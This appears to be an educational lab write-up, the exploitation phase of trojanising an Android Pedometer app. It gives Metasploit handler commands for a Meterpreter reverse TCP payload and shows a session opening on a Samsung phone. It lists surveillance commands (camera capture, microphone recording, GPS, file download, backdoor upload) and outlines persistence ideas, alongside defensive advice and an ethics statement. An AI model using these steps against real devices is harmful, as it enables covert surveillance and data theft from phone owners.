


# Exploitation

This final phase demonstrates establishing remote control of the target Android device through the Meterpreter payload.

## Phase 1: Metasploit Handler Setup

### Starting Metasploit Framework

msfconsole

### Configuring the Listener
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 172.27.33.114
set LPORT 4444
exploit -j

**Parameters explained:**
- `multi/handler` - Generic payload handler
- `android/meterpreter/reverse_tcp` - Matches payload in APK
- `LHOST` - Attacker IP (Kali)
- `LPORT` - Listening port
- `exploit -j` - Run as background job

**Handler status:**
[*] Started reverse TCP handler on 172.27.33.114:4444

## Phase 2: Session Establishment

### Triggering the Connection

**On target device:**
1. User launches the Pedometer app
2. Payload executes in background
3. Device connects to 172.27.33.114:4444

### Meterpreter Session Opened

**Console output:**
[] Sending stage (78144 bytes) to 172.27.33.171
[] Meterpreter session 1 opened (172.27.33.114:4444 -> 172.27.33.171:xxxxx)
**Access gained!** Full remote control of Android device.

## Phase 3: Post-Exploitation

### Device Information Gathering

**System details:**
meterpreter > sysinfo

**Output reveals:**
- **Device:** Samsung SM-M325FV (M32)
- **OS:** Android 13
- **Architecture:** aarch64 (ARM64)
- **Meterpreter version:** Active session

### Camera Enumeration

meterpreter > webcam_list

**Detected cameras:**
- Camera 0: Front camera
- Camera 1: Rear camera

Enables remote photo/video capture capability.

### User Context

meterpreter > getuid

**Result:** 
Server username: u0_a123

This is the Android app user ID (sandboxed application context).

## Phase 4: Available Commands

### File System Access

meterpreter > ls /sdcard/
meterpreter > download /sdcard/DCIM/Camera/photo.jpg
meterpreter > upload backdoor.sh /sdcard/

### Surveillance Capabilities

meterpreter > webcam_snap # Capture photo
meterpreter > record_mic # Record audio
meterpreter > geolocate # Get GPS coordinates

### Network Operations
meterpreter > ipconfig # Network interfaces
meterpreter > netstat # Active connections
meterpreter > portfwd # Port forwarding

### Process Interaction
meterpreter > ps # List processes
meterpreter > shell # Android shell access

## Session Persistence

### Maintaining Access

**Challenges:**
- App must remain running (user can close it)
- Device reboot terminates session
- Network connectivity required

**Persistence techniques** (advanced):
- Register as background service
- Exploit autostart mechanisms
- Bind to system apps

## Real-World Impact

### Attack Capabilities

With Meterpreter access, attacker can:
- **Spy:** Camera, microphone, GPS tracking
- **Steal data:** Photos, contacts, messages, files
- **Intercept communications:** SMS, calls (with root)
- **Pivot:** Use device to attack other network targets

### Detection and Prevention

**User indicators:**
- Battery drain (background processes)
- Data usage spikes (C2 communication)
- Unknown permissions requested
- App from untrusted source

**Defensive measures:**
- Only install apps from Google Play Store
- Review app permissions carefully
- Use antivirus/mobile security software
- Keep Google Play Protect enabled

## Ethical Disclosure

This lab was conducted:
- On personally owned devices
- In isolated test environment
- With no unauthorized access
- For educational purposes only

**⚠️ Legal Warning:** Deploying malware without authorization is illegal under computer fraud laws worldwide.

---

**Lab Complete!** All phases documented and exploitation demonstrated successfully.

